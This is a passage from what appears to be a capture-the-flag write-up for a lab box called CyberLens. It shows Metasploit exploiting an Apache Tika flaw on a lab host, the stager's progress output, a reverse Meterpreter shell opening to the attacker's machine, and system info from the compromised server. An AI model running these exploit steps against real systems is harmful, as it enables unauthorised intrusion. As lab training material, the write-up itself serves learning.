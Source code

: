 ```console
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set LPORT 9999
LPORT => 9999
```
Now, running the **exploit** will **compromise** the server.
```console
msf6 exploit(windows/http/apache_tika_jp2_jscript) > run

[*] Started reverse TCP handler on 10.17.47.174:9999
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -   8.10% done (7999/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  16.19% done (15998/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  24.29% done (23997/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  32.39% done (31996/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  40.48% done (39995/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  48.58% done (47994/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  56.67% done (55993/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  64.77% done (63992/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  72.87% done (71991/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  80.96% done (79990/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  89.06% done (87989/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress -  97.16% done (95988/98798 bytes)
[*] Sending PUT request to 10.10.53.38:61777/meta
[*] Command Stager progress - 100.00% done (98798/98798 bytes)
[*] Sending stage (177734 bytes) to 10.10.53.38
[*] Meterpreter session 1 opened (10.17.47.174:9999 -> 10.10.53.38:49862)
```
We can use either `run` or `exploit` as the **command.**

---

## shell as cyberlens
We have **successfully** gained a Windows **shell** as the **user** `cyberlens`.
```shell
meterpreter > sysinfo
Computer        : CYBERLENS
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
Now, let's **dig deeper** to locate the `user.txt` **flag** and **answer** the **first question**.

---
